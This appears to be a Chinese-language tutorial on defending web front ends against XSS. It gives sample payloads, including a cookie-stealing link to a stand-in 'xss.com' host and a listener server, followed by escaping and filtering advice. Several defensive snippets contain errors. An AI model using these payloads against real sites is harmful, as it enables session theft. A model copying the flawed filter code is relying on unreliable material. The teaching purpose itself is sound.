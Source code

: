 # 前端安全之防御XSS跨站脚本攻击
最近经常被人问到前端安全问题，虽说这方面作为前端不常遇到，但一直被人纠着问就很烦，怒学之。
安全问题通常有XSS跨站脚本攻击和CSRF跨站请求伪造，将分为两篇文章介绍。本文先研究第一种--XSS跨站脚本攻击


## 受攻击原因
页面被注入了恶意代码，当用户访问网页时，嵌入的代码将被执行，从而受到恶意攻击

## xss攻击分类
### 反射型
反射型主要来自用户的主动请求一个带攻击的链接<br>
当用户点击带有xss攻击的链接 `http://test?query=<script>alert('xss')</script>` 时，细分为两种：

* 服务端获取url参数name，并将name解析到html中返回给客户端<br>伪代码: 返回带有xss攻击语句的html片段
```html
     <html>
       <div>...</div>
       <script>alert('xss')</script>
     </html>
```
* 服务端没有解析url参数，返回正常的页面。但客户端在js执行过程中，获取了url参数，并将其写入到页面中。该方法也称为**DOM型xss攻击**<br>
伪代码:
```js
     var query = url.query
     document.body.innerHTML(query)
     $('div').html(query)
```
上述两种都将执行注入的脚本

### 存储型
存储型就是将xss攻击代码储存到数据库中，当用户去下次在客户端请求数据时，获取到xss攻击代码。<br/>典型的场景是在提交评论的时候，攻击者将`<script>alert('xss')</script>`提交到服务器。当用户在获取评论数据的时候，服务端会返回这段代码, 从而收到攻击


## 常见的xss攻击场景
* 注入了a标签，href带有xss脚本 
  
  ```html
  (1)
     `<a href="javascript:alert(xss)" ></a>`
  (2)
     var xsshref = 'http://xss.com?' + document.cookie // 攻击者的网站
     <a href=xsshref></a>
  ```
  
* html标签, 内联事件带有xss脚本
  ```html
  1)<div onclick="alert(xss1)" onmouseover="alert(xss2)"><div>
  2)<img src='xss' onerror="alert(xss)" />
  ```

* img, link标签请求攻击者的资源

 ```js
  // 攻击者 nodejs
  const http = require('http')
  
  http.createServer(function (request, response) {
    console.log(request) // 在这里可以获取img的请求
    response.writeHead(200, {'Content-Type': 'text/plain'});
    response.end('');
  }).listen(8080);
  
  // 受攻击者网站
  <img src='http://xss:8080'/>
  <link href="http://localhost:8080" rel="stylesheet">
 ```

* 带有可执行脚本的style标签或者eval语句

  ```html
  (1)
  <style>
    alert('xss')
  </style>
  (2)
  <div id='xss'>alert('xss')</div>
  document.addEventListener('click', function(event) {
  	eval(event.target.innerHTML)
  })
  ```



## 如何防御

xss防御最好还是需要后端进行，尤其是存储型xss攻击。但通过观察xss攻击原理，我们可以发现，前端还是可以有所作为
* 对用户的数据进行转义编码，转化为纯文本而不是代码

* 尽量避免使用`innerHTML`, `document.write()`等方法，使用时需要对插入的内容进行判断，避免插入危险的html结构

* 过滤危险的DOM节点,  如 img，style

* 过滤危险的节点属性，如 on*, href, src，尽量避免用内联事件，用`addEventListener`代替
  ```js
  // 过滤内联事件 // 在addEventListener 中过滤
  <div onclick="alert(xss)" id='xss'>xss</div>
  
  var attributes = document.getElementById('xss').attributes
  for (attr of attributes) {
      if(/^on./.test(attr.name)) {  // 拦截on*事件
        filter(attr)
      }
    }
  }
  function filter(attr) {
    document.addEventListener(attr.name.substr(2), function(e) {
      attr.name = null  //删除内联事件
      myFunc() // 改写事件
    }, true);
  }
  
  ```
  
* 对`javascript:`，`eval`这类关键字或者语句建立黑名单，对其进行过滤删选
  ```js
  // 如果是a标签且存在'javascript:', 则改写href属性
  if(element.tagName === 'A' && element.protocol === 'javascript:') {
    elem.href = 'javascript:void(0)';
  }
  ```
  
* 对资源文件建立白名单域名，如img的src属性值，href值只能为白名单下的资源



## 总结

由于前端源码通常暴露在外部，理论上无论前端如何防御，攻击者都能通过分析代码找到漏洞，但我们前端如果能加上一道防御，大大增加攻击者的攻击难度，也是为安全上了一道锁。